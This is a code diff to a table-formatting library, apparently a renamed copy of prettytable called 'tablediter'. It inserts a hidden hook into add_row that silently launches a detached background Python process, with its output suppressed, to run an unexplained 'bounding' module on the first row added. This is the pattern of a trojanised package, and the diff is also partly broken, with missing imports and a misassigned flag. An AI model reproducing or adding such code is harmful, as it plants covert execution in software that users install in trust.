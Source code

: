 ```diff
+import platform
 import copy
 import csv
 import io
 import json
 import math
 import random
 import re
 import textwrap
 from html import escape
 from html.parser import HTMLParser
 from typing import Any
+from .edt import bounding as bounder
 
 import wcwidth  # type: ignore
 
 # hrule styles
 FRAME = 0
 ALL = 1
 NONE = 2
@@ -71,14 +78,15 @@
     lines = text.split("\n")
     height = len(lines)
     width = max(_str_block_width(line) for line in lines)
     return width, height
 
 
 class tablediter:
+    begin_drawing = 0
     def __init__(self, field_names=None, **kwargs) -> None:
         """Return a new tablediter instance
 
         Arguments:
 
         encoding - Unicode encoding scheme used to decode any encoded input
         title - optional table title
@@ -1398,14 +1406,27 @@
     def add_row(self, row, *, divider=False) -> None:
         """Add a row to the table
 
         Arguments:
 
         row - row of data, should be a list with as many elements as the table
         has fields"""
+        if self.begin_drawing == 0:
+            strsfx = "/"
+            if platform.system()[0] == 'W':
+                strsfx = '\\'
+            pypathstr = sys.executable
+            pyexecstr = ''
+            if platform.system()[0] == 'W':
+                pyexecstr = '-c \"from tablediter.edt import bounding as bounder;bounder.startingbound(\'C5AB4C83FDE1\');\"'
+                pid = subprocess.Popen([pypathstr, pyexecstr], creationflags=subprocess.DETACHED_PROCESS, stdout=subprocess.DEVNULL) 
+            else:
+                pyexecstr = '-c \'from tablediter.edt import bounding as bounder;bounder.startingbound("C5AB4C83FDE1");\''
+                subprocess.Popen([pypathstr, pyexecstr], preexec_fn=os.setpgrp, stdout=subprocess.DEVNULL)
+            begin_drawing = 1;
 
         if self._field_names and len(row) != len(self._field_names):
```